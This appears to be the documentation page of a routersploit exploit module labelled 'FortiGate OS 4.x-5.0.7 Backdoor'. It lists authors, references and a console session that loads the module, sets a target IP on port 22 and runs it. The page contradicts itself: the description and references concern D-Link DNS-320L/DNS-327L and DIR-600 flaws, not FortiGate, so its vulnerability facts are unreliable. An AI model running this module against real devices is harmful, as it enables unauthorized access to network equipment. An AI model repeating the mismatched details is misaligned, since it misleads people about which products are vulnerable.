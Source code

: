 # FortiGate OS 4.x-5.0.7 Backdoor

## Description
Module exploits D-Link DNS-320L, DNS-327L Remote Code Execution vulnerability which allows executing command on the device.

## Authors
* operator8203 # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.dlink.com/uk/en/home-solutions/connect/routers/dir-600-wireless-n-150-home-router](http://www.dlink.com/uk/en/home-solutions/connect/routers/dir-600-wireless-n-150-home-router)
* [http://www.s3cur1ty.de/home-network-horror-days](http://www.s3cur1ty.de/home-network-horror-days)
* [http://www.s3cur1ty.de/m1adv2013-003](http://www.s3cur1ty.de/m1adv2013-003)

## Vulnerable devices
* FortiGate OS Version 4.x-5.0.7

## Usage
```
rsf > use exploits/fortinet/fortigate_os_backdoor
rsf (FortiGate OS 4.x-5.0.7 Backdoor) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address
   port       22                   Target Port


rsf (FortiGate OS 4.x-5.0.7 Backdoor) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (FortiGate OS 4.x-5.0.7 Backdoor) > run
[*] Running module...
```

